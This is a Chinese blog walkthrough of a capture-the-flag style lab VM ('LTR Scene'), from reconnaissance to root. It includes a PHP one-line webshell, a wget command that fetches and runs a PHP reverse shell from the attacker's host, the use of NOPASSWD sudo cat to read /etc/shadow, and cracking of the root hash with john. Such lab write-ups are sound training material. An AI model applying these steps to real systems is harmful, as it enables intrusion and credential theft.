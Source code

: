 ```yaml
---
title: LTR Scene（php写入一句话+sudoer提权）
categories:
- training
tags:
- training
---
```

以前的步骤经常看到一个感兴趣的点，然后就一直死磕ORZ

[发现登陆页面，就开始尝试检查弱密码](https://whale3070.github.io/training/2018/10/29/ch4inrulz-Apache-.htaccess%E5%8F%88%E6%98%AF%E5%A5%97%E8%B7%AF/)
实际上如果检查到备份文件泄露，很快就可以突破登陆表单。

[发现backup文件下载，从猜测直接跳到尝试，步骤错了。。](https://whale3070.github.io/training/2018/10/13/node-%E6%BA%90%E7%A0%81%E6%B3%84%E9%9C%B2+%E5%AF%86%E7%A0%81%E5%AD%A6%E7%9B%B8%E5%85%B3/)

所以踩点这一步的确没有做好。

---

## 踩点
```
21/tcp    open   ftp        ProFTPD 1.3.1 Server
22/tcp    open   ssh        OpenSSH 5.1 (protocol 1.99)
80/tcp    open   http       Apache httpd 2.2.13 ((Unix) DAV/2 PHP/5.2.10)
Linux 2.6.X
```
第一点，不要相信任何扫描结果。

#### 80:
http://192.168.2.120/logs/ 403
http://192.168.2.120/cgi-bin/ 403
- info1: 
```
index.php
<!-- username:logs password:zg]E-b0]+8:(58G -->
```
- info2:
一个邮箱dev@21ltr.com
源码发现了一个口令，经过尝试确认ftp口令可以登录。

#### 21:
info2: 检查过匿名登陆
- 下载了一个php文件
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/1.PNG)
lcd /root/Desktop
get backup_log.php 
- ftp权限可读不可写
lcd /root/Desktop
put
a.php（上传本地a.php）
a.php（把选中的文件，以a.php写入服务器）
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/2.PNG)

- 看来只能检查这个php脚本了。
```
<?php $log = time(); echo '<center><b>GMT time is: '.gmdate('r', $log).'</b></center>'; ?>          
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/3.PNG)
该脚本的作用：生成现在的时间戳，然后记录下发生错误的记录。
没有任何提权思路。

## 22 ssh：
[exp](https://www.exploit-db.com/exploits/45233/)
python 45233.py --port 22 --username logs 192.168.2.120
logs is not a valid user!

---

## 10001： scp
一开始发现了10001开放，可是具体去扫描的时候，又关闭了，所以以为是误报。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/4.PNG)
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/5.PNG)

---

首先将kali改为192.168.2.240，ftp泄露的log提示。
scp会将文件发送到这个ip。

第二步建立一个文本文件，写入一句话。
`<?php system($_GET['cmd']) ?> `

第三步执行监听。

```
nc -nvlp 10000 > file.gz && nc -nv 192.168.2.120 10001 < text  
```
分为两条命令，第一条，监听本地10000端口，如果有连接进来，就发送到file.gz。第二条，将text文件发送到指定ip和端口。

注意：&& 和 ；的区别（linux shell）
&&正确执行完第一条，才执行第二条。
； 分别执行，命令之间不相关。

第四步，稍等一会儿nc显示，靶机连进来了==，并传递了一个备份文件。
在这里，我检查过backup_log.php，确认没有漏洞。但是居然可以利用scp写入system函数，让这个文件可以执行命令！真的出乎意料。
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/6.PNG)

---

接下来就简单了，[以前学过](https://whale3070.github.io/training/2017/11/02/g0rmint-%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%86%99%E5%85%A5log-%E6%8F%90%E6%9D%83/)
info: /var/www/htdocs/logs
Linux slax 2.6.27.27
准备php反弹shell脚本。
kali: python -m SimpleHTTPServer 888
		nc -lnvp 1234

`cd /tmp;wget http://192.168.2.240:888/php-reverse-shell.php;chmod +x php-reverse-shell.php;./php-reverse-shell.php`
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/7.PNG)

现在是apache用户

---
查找ssh密钥
find . -name "id_rsa" 2> /dev/null
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/8.PNG)

```
./mnt/live/mnt/hdc/slax/rootcopy/media/USB_1/Stuff/Keys/id_rsa           root root 1675 Jan  5  2008 
./mnt/live/memory/changes/media/USB_1/Stuff/Keys/id_rsa
./mnt/hdc/slax/rootcopy/media/USB_1/Stuff/Keys/id_rsa
./media/USB_1/Stuff/Keys/id_rsa
root root 1675 Jan  5  2008
```
尝试后，以hbeale用户登陆
```
chmod 600 key
ssh -i key hbeale@192.168.2.120  
```
现在是普通用户权限

---
## sudo权限错误

以前遇到过关于sudo权限的：https://whale3070.github.io/training/2018/04/16/bashed(%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C+%E6%9D%83%E9%99%90%E9%94%99%E8%AF%AF)/

#### visudo
以root用户运行visudo命令，可以修改/etc/sudoers。

`# User privilege specification`
root ALL=(ALL) ALL
xx ALL=(ALL) ALL

如果sudoers文件中，有上述代码。说明xx用户可以用sudo执行任何命令（以root权限）

sudoers文件只有root账号才能查看并且修改。

#### sudo -l
用户hbeale执行该命令，查看sudoers权限。
```
User hbeale may run the following commands on this host:  
    (root) NOEXEC: /bin/ls, (root) /usr/bin/cat, (root) /usr/bin/more, (root)  
    !/usr/bin/su *root*  
    (root) NOPASSWD: /usr/bin/cat  
```
最后一行NOPASSWD，说明sudo命令运行/usr/bin/cat的时候，不需要输入密码。

于是sudo cat /etc/shadow
获取到了root加密的口令 `$1$VW5E9DmD$deoML8uqU/4HaTmNmfM7G1`

---

#### 破解/etc/shadow
将口令写入pass.txt
john --wordlists=/usr/share/wordlists/rockyou.txt pass.txt
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/9.PNG)

su root，提权成功。

